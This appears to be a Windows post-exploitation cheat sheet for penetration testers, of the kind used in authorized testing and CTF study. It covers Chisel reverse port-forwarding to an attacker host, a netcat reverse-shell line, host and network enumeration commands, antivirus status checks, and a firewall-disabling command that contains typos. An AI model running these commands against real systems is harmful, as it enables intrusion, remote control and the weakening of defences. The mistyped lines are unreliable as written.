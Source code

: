 ## Post-exploitation
### Port-forwarding

**Chisel**
To make localhost port accessible (local server port) from outside (attacker
host) use `chisel` port-forwarding tool: https://github.com/jpillora/chisel
```powershell
# 1. Run on Linux attacker host:
chisel server --reverse --port 9001
# 2. Run on Windows server (forward :win-port to :open-port):
.\chisel.exe client <my-ip>:9001 R:<open-port>:127.0.0.1:<win-port>
# 3. Now open in browser: http://localhost:<open-port>
```

### CMD and Powershell
- https://ss64.com/ - powershell and CMD commands cheat-sheet
```powershell
nc.exe -e powershell <my-ip> <my-port>      # Connect shell to listener

# Download file (tip: check file integrity)
Invoke-WebRequest -URI <url> -OutFile <file>

Get-FileHash <file> -Algorithm MD5          # Calculate MD5 file hash
gci env:* | sort-object name                # List env variables

get-localuser                               # List all local users
Get-NetAdapter -Name * -IncludeHidden       # List all network adapters
ipconfig /all                               # Show network configuration
net share                                   # List local SMB shares
net view \\<machine> /all                   # List remote SMB shares
net start                                   # List services
net user                                    # List all local users
net user <username>                         # Get info about local user
net localgroup                              # List all local groups   
net localgroup <group>                      # Get info about local group
net accounts                                # List local password policy
netstat -avb -p <TCP|UDP>                   # List open ports
arp -a                                      # List ARP table (discover hosts)
tasklist                                    # List processes
systeminfo                                  # Get local system and AD info
get-service WinDefend                       # Get state of Windows Defender
Get-MpComputerStatus                        # Get status of AV software
Get-MpThreat                                # Get details of detected threat
Get-NetFirewallProfile                      # List profiles of local firewall
Get-NetFirewallRule                         # List rules of local firewall
req query <registry-key>                    # Get Windows registry key value

# Find TCP port by service PID
netstat -noa | findstr "LISTENING" | findstr <PID>
netstat
  -a                                        # List listening ports only
  -b                                        # Show assigned binary
  -n                                        # Do not resolve IP
  -o                                        # Show PID

# Get event logs
Get-EventLog -List        
Get-EventLog -LogName System -EntryType Error      

# Disable firewall profiles
Set-NetFirewallProfile -Profile Domain,Public,Privarte - Enabled False

# Test for connections to other machines
```